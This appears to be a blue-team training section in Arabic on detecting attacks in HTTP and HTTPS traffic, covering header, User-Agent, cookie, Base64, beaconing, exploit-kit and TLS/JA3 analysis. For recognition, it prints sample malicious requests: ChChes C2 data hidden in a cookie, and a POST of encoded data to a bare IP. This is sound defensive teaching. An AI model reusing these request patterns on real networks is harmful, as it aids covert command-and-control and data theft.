> **الهدف من الـ Section ده:**
> هتفهم إزاي المهاجمين بيستخدموا الـ HTTP في كل مراحل الهجوم، وإزاي تحلل الـ HTTP traffic عشان تكشف الهجمات. هتعرف تستخدم الأدوات الأوتوماتيكية والـ manual analysis، وتفهم الـ HTTPS وتحدياته في الـ SOC.

---

## Table of Contents

- [Introduction](#introduction)
- [HTTP في الـ Cyber Kill Chain](#http-في-الـ-cyber-kill-chain)
- [HTTP Analysis Methods](#http-analysis-methods)
- [URL Reputation Checks](#url-reputation-checks)
- [Screenshot Tools للـ Phishing](#screenshot-tools-للـ-phishing)
- [Sandboxing](#sandboxing)
- [Manual Header Analysis](#manual-header-analysis)
- [User-Agent Analysis](#user-agent-analysis)
- [Cookies كـ Attack Vector](#cookies-كـ-attack-vector)
- [Base64 Encoding](#base64-encoding)
- [File Extraction من الـ PCAP](#file-extraction-من-الـ-pcap)
- [High Frequency Beaconing](#high-frequency-beaconing)
- [Naked IP Address](#naked-ip-address)
- [Exploit Kits](#exploit-kits)
- [HTTPS وتحدياته](#https-وتحدياته)
- [TLS Decryption](#tls-decryption)
- [JA3 و TLS Fingerprinting](#ja3-و-tls-fingerprinting)
- [TLS 1.3 والمشاكل الجديدة](#tls-13-والمشاكل-الجديدة)
- [Case Studies: Malicious or Benign?](#case-studies-malicious-or-benign)
- [Summary](#summary)

---

## Introduction

الـ HTTP هو البروتوكول الأكتر استخداماً على الإنترنت، وده اللي بيخليه الأكتر استخداماً من المهاجمين كمان. لأن في أي شبكة، الـ HTTP traffic مسموح بيه تقريباً دايماً — فالمهاجم بيختبئ جوا الـ Traffic العادي.

كـ Blue Team Analyst، لازم تعرف:
- إزاي المهاجمين بيستخدموا HTTP في كل مرحلة من مراحل الهجوم
- إزاي تحلل الـ HTTP بطريقة سريعة وصح
- إيه الأدوات المتاحة للتحليل الأوتوماتيكي والـ manual

---

## HTTP في الـ Cyber Kill Chain

المهاجمون بيستخدموا الـ HTTP في **كل مراحل** الهجوم تقريباً:



| مرحلة الهجوم | استخدام الـ HTTP |
|---|---|
| Deliver / Exploit | Exploit Kits, Phishing sites, Fake Updates |
| Installation | تحميل Malware عبر HTTP |
| Command and Control | Malware بيعمل GET/POST بشكل دوري |
| Data Exfiltration | رفع Data مشفرة أو مكودة |

> [!IMPORTANT]
> الـ HTTP بيستخدم في كل مراحل الـ Cyber Kill Chain تقريباً، وده بيخليه هدف أساسي للـ SOC Analyst يفهمه كويس.

---

## HTTP Analysis Methods

في أسلوبين للتحليل، والأسلوب الأوتوماتيكي أسرع لكن الـ Manual أدق:



> [!TIP]
> ابدأ دايماً بالأسرع. لو الـ URL Reputation طلع نتيجة، مش محتاج تدخل في الـ Manual Analysis. وفر وقتك للحالات الصعبة.

---

## URL Reputation Checks

ده أبسط وأسرع حاجة تعملها لما تشوف URL مشبوه:

### إيه اللي بيحصل؟
- بتحط الـ URL في موقع متخصص
- الموقع بيقولك لو الـ URL معروف بأنه خطير
- **لكن نتيجة سلبية مش معناها إن الـ URL آمن!**

### نقطة مهمة جداً

> [!WARNING]
> **Safe Domain لا يعني Safe URL!**
> ممكن يكون عندك URL خطير على Domain معروف وآمن زي:
> - مدونة WordPress اتهكرت
> - ملف Malware اتحط على Dropbox
> - Watering Hole Attack على موقع شركة حقيقية

### مثال توضيحي
```
Domain: dropbox.com         --> Reputation: GOOD
URL: dropbox.com/s/xyz/virus.exe --> Could be EVIL
```

---

## Screenshot Tools للـ Phishing

لما تيجي تشوف موقع Phishing، متفتحوش مباشرةً. استخدم أدوات بتعمل Screenshot بدالك:

| الأداة | الوصف | هل بتشارك الـ Link؟ |
|---|---|---|
| **urlscan.io** | تفاصيل الـ Network Transactions كلها | نعم |
| **page2images.com** | Screenshot بسيط وسريع | لا |
| **phishtank.com** | تصويت جماعي على الـ Phishing sites | نعم |
| **hybrid-analysis.com** | Screenshot + تحليل Sandbox كامل | نعم |
| **URLQuery.net** | Screenshot + IDS rules checks | نعم |

> [!WARNING]
> لو الـ Case حساسة وما تحبش حد يعرف إنك بتبحث، استخدم **page2images.com** فقط لأنها مش بتحفظ الـ Links.

---

## Sandboxing

لما الـ URL Reputation مش كافي، تعمل **Sandboxing** — يعني بتخلي جهاز افتراضي يفتح الـ URL وانت تتفرج:



### مقارنة بين الأدوات

| الأداة | المستوى | الأفضل لـ |
|---|---|---|
| **urlscan.io** | مبتدئ | Network-centric analysis |
| **hybrid-analysis.com** | متقدم | Malware behavior on host |
| **any.run** | متقدم | Interactive analysis |

> [!NOTE]
> الـ Sandbox مش بس بيدي Screenshot — بيدي PCAP، IDS alerts، MITRE ATT&CK hits، وأحياناً الملفات اللي اتحملت.

---

## Manual Header Analysis

لما الأدوات الأوتوماتيكية مش كافية، تبدأ تشوف الـ Headers بإيدك. إيه اللي لازم تبص عليه:



### أسئلة تسألها عن كل Header

| الـ Header | السؤال اللي لازم تسأله |
|---|---|
| `Host` | هل الدومين معروف؟ هل فيه IP بدل Hostname؟ |
| `User-Agent` | هل يتطابق مع البيئة؟ هل Version قديم جداً؟ |
| `Path` | هل فيه أحرف Random؟ هل فيه Encoding؟ |
| `Cookie` | هل فيه Data مشفرة غير عادية؟ |
| `Content-Type` | هل يتطابق مع محتوى الـ Body فعلاً؟ |

---

## User-Agent Analysis

الـ User-Agent هو Field اختياري وبيكتبه البرنامج نفسه — يعني سهل يتزور.

### ليه الـ Malware بيبان في الـ User-Agent؟

1. **كتير من الـ Malware مش بيهتم يعمل User-Agent واقعي** — فبتشوف أشياء غريبة أو فاضية
2. **بعض الـ Malware بيقلد User-Agent ثابت** — زي Chrome 95.0 — ولو الـ Environment اتحدث، هو مش هيتحدث
3. **ممكن يكون OS مش متطابق** — زي Linux User-Agent على Network فيه Windows بس

### تشريح User-Agent حقيقي

```
Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
```

| الجزء | المعنى |
|---|---|
| `Mozilla/5.0` | تقريباً كل البراوزرات بتبدأ بيه للأسباب تاريخية |
| `Windows NT 10.0; Win64; x64` | الـ OS هو Windows 10 بـ 64-bit |
| `rv:97.0` | إصدار الـ Browser Engine |
| `Gecko/20100101` | اسم الـ Rendering Engine (Firefox) |
| `Firefox/97.0` | اسم وإصدار البراوزر |

> [!TIP]
> عمل **Frequency Analysis** لكل الـ User-Agents اللي على الشبكة. الواحد الغريب اللي بيتكرر كتير هو المشبوه.

> [!WARNING]
> لو شفت `Mozilla` بس من غير `5.0` — ده مشبوه. لو شفت حاجة مش بتبدأ بـ `Mozilla` خالص — ده غالباً مش Browser وممكن يكون Malware.

---

## Cookies كـ Attack Vector

الـ Cookie Header من الأماكن الذكية اللي المهاجمون بيخبوا فيها بيانات الـ Command and Control لأن:
- معظم الـ Logs مش بتسجل محتوى الـ Cookies بالتفصيل
- شكلها طبيعي في أي HTTP Request
- فيها مساحة كافية لنقل بيانات

### مثال حقيقي: ChChes Malware

```http
GET /X4iBJjp/MtD1xyoJMQ.htm HTTP/1.1
Cookie: uHa5=kXFGd3JqQHMfnMbi9mFZAJHCGja0ZLs%3D;KQ=yt%2Fe...
Host: kawasaki.unhamj.com
```

الـ Cookie هنا بيحتوي على بيانات C2 مشفرة بـ Base64.

### مثال حقيقي: NotPetya Malware

الـ Cookie بتاعة NotPetya كانت بتحتوي على `un=Admin` — يعني الـ Malware بيبلغ الـ C2 Server إن هو شغال بـ Admin Privileges!

> [!WARNING]
> لو شفت Cookie بيها محتوى Base64 بيروح لـ Domain غريب — ده Red Flag كبير جداً.

---

## Base64 Encoding

### ما هو الـ Base64؟

الـ Base64 هو طريقة لتحويل أي Bytes لحروف ASCII قابلة للطباعة. الفكرة:



### كيف تعرف إن الـ String ده Base64؟

- بيحتوي على: `A-Z`, `a-z`, `0-9`, `+`, `/`, `=`
- غالباً بينتهي بـ `=` أو `==`
- طوله بيكون مضاعف لـ 4

### مثال

```
النص الأصلي: Hello
Base64: SGVsbG8=
```

### ليه الـ Malware بيستخدم Base64؟

1. عشان يتجنب الـ Signature-based Detection
2. عشان يخبي محتوى الـ Data المتنقلة
3. مش Encryption لكن بيعقد التحليل السريع

> [!IMPORTANT]
> الـ Base64 مش Encryption! بتقدر تعمله Decode بسهولة. لو شفت Base64 في مكان مش متوقع — حاول تعمله Decode وشوف إيه جوه.

### الأدوات

```bash
# Linux command line
echo "SGVsbG8=" | base64 -d

# CyberChef online tool - أسهل وأسرع
```

### أمثلة على APT Malware بيستخدم Base64

| الـ Malware | فين الـ Base64؟ |
|---|---|
| APT19 | في الـ Cookie Header مع GET Request |
| Ixshe | في الـ Body مع POST Request |
| ChChes | في الـ Cookie كـ C2 Channel |

---

## File Extraction من الـ PCAP

لما تشوف حد حمل ملف مشبوه، تقدر تستخرجه من الـ PCAP وتحلله:

### في Wireshark

```
File > Export Objects > HTTP
```

بعدين اختار الملف اللي عايزه واحفظه.

> [!WARNING]
> **قاعدة مهمة جداً:** لو الملف ده Windows Executable، استخرجه على Linux Machine فقط. ما تفتحوش على Windows عشان متتعدش بالغلط!

### ملفات خطيرة تتعامل معاها بحذر

| النوع | الامتداد | الخطر |
|---|---|---|
| Windows Executable | .exe, .dll, .scr | ممكن يتشغل بـ Double Click |
| Scripts | .js, .vbs, .ps1 | Windows ممكن يشغلها |
| Office files | .doc, .docm | ممكن يكون فيها Macros |

> [!NOTE]
> استخراج ملفات من HTTP/2 مش ممكن بنفس الطريقة — لازم تعمل Manual Carving من الـ DATA frames.

---

## High Frequency Beaconing

الـ Malware اللي بيستخدم HTTP للـ C2 لازم "يتحقق" بشكل منتظم من الـ C2 Server:



### علامات الـ Beaconing

- **High Volume:** أكتر من 100 POST في ساعة لـ Domain غريب
- **Periodic:** الـ Requests بتيجي كل فترة ثابتة
- **New/Untrusted Domain:** مش من الـ Top 1000 Sites
- **POST to Root:** `POST /` بدل `POST /api/endpoint`

### أدوات الكشف

| الأداة | الوظيفة |
|---|---|
| **RITA** (Black Hills) | بيكتشف الـ Periodic Signals حتى لو المسافة بعيدة |
| **SIEM Rules** | قاعدة زي "Alert لو أكتر من 100 POST لغير الـ Top 1000 في ساعة" |
| **Zeek** | بيولد `conn.log` بيساعد في تحليل الـ Patterns |

---

## Naked IP Address

لما الـ Malware بيتصل بـ IP مباشرة بدون Hostname — ده Red Flag:

```http
POST / HTTP/1.1
Host: 45.155.205.233
Content-Type: application/x-www-form-urlencoded

data=base64encodedstuff
```

### ليه ده مشبوه؟
- معظم الـ Applications الحقيقية بتستخدم Hostnames
- الـ C2 Servers كتير بيستخدموا IP مباشرة
- `POST to /` بدون Path أو Script — ده مش طبيعي

> [!WARNING]
> **علامتين في واحد:** IP بدل Hostname + POST إلى `/` مباشرة = احتمال C2 كبير جداً.

---

## Exploit Kits

### إيه هو الـ Exploit Kit؟

هو نظام أوتوماتيكي هدفه إصابة المستخدم بمجرد زيارته لموقع معين — بدون أي تفاعل منه!



### كيف يشتغل الـ Exploit Kit؟

1. المهاجم بيهكر موقع شرعي أو بيدفع للـ Malvertising
2. المستخدم يزور الموقع
3. الـ EK بيفحص الـ Browser والـ Plugins
4. بيختار الـ Exploit المناسب للضحية
5. بيبعت Payload مخصص

### علامات الـ Exploit Kit في الـ Traffic

| العلامة | التفسير |
|---|---|
| Domains جديدة ومجهولة | الـ EK بيستخدم Fresh Domains |
| Random Subdomains | تجنب الـ Signatures |
| URLs طويلة ومشفرة | إخفاء الـ Parameters |
| JavaScript مشفر جداً | Anti-reversing |
| ملف .exe في آخر Chain | الـ Payload وصل |

> [!NOTE]
> الأخبار الحلوة: Exploit Kits قلّت كتير في السنوات الأخيرة بسبب انخفاض الـ Flash وـ Java وتحسن الـ Browsers. لكن لسه موجودة!

---

## HTTPS وتحدياته

### المشكلة

الـ HTTPS رائع للأمان الشخصي — لكنه مشكلة كبيرة لـ Blue Team:



### إيه اللي ممكن تشوفه بدون Decryption؟

| الـ Layer | المعلومات المتاحة |
|---|---|
| IP Layer | Destination IP, ASN, GeoIP |
| TCP Layer | Port number (مشبوه لو مش 443) |
| Session Layer | Certificate details (Subject, Issuer) |
| Application Layer | **لا شيء** — كله مشفر |

> [!WARNING]
> الـ TLS 1.3 وصل، وبيشفر حتى الـ Certificate exchange. مع ظهور الـ Encrypted Client Hello (ECH)، هتخسر حتى معرفة الـ Domain اللي الـ User بيزوره!

---

## TLS Decryption

### إزاي بيشتغل الـ TLS Decryption؟

ده نوع من الـ Man-in-the-Middle اللي المؤسسة بتعمله بشكل رسمي:



### الشروط اللازمة

1. المؤسسة بتعمل **Root CA** بتاعها
2. تنصيب الـ Root CA Certificate على كل الـ Clients
3. جهاز الـ Decryption بيولد Certificates لكل موقع On-the-fly
4. البراوزر بيقبل الـ Certificate لأن الـ Root CA موثوق عنده

> [!IMPORTANT]
> بدون TLS Decryption هتكون أعمى لأغلب الـ HTTP Traffic الحديث. الاستثمار في TLS Inspection ضروري جداً للـ SOC.

---

## JA3 و TLS Fingerprinting

### الفكرة الذكية

كل برنامج بيتصل بـ TLS بطريقة مختلفة شوية — الـ Ciphers اللي بيدعمها، الـ Extensions، إلخ. نقدر نعمل Fingerprint لكل برنامج بناءً على ده!



### JA3 vs JA3S vs JARM

| النوع | يتعمل من | يمثل |
|---|---|---|
| **JA3** | ClientHello | Fingerprint للـ Client (Browser أو Malware) |
| **JA3S** | ServerHello | Fingerprint للـ Server |
| **JARM** | Active probing | Fingerprint للـ C2 Server بطريقة Active |

### مثال

```
Firefox 95 على Windows 10:
JA3 Hash = bd50e49d418ed1777b9a410d614440c4
```

لو شفت JA3 Hash مش معروف أو متطابق مع Malware known — ده Red Flag حتى من غير ما تشوف محتوى الـ Traffic!

> [!TIP]
> أدوات زي **Zeek** بتحسب الـ JA3 و JA3S تلقائياً لكل Connection. حطها في الـ SIEM وابحث عن Anomalies.

---

## TLS 1.3 والمشاكل الجديدة

### التغييرات الكبيرة في TLS 1.3

| الميزة | TLS 1.2 | TLS 1.3 |
|---|---|---|
| Certificate Exchange | Plaintext | **مشفر** |
| SNI Field | Plaintext | مشفر مستقبلاً بـ ECH |
| Perfect Forward Secrecy | اختياري | **إجباري** |
| Passive Decryption | ممكن بالـ Private Key | **مستحيل** |
| Downgrade Attack | ممكن | **محمي** |

### الـ Perfect Forward Secrecy مشكلة ليه؟



> [!WARNING]
> مع الـ Encrypted Client Hello (ECH) القادم، حتى معرفة الـ Domain اللي الـ User بيتصل بيه هتختفي. التخطيط مطلوب **دلوقتي** لمستقبل الـ Network Monitoring.

---

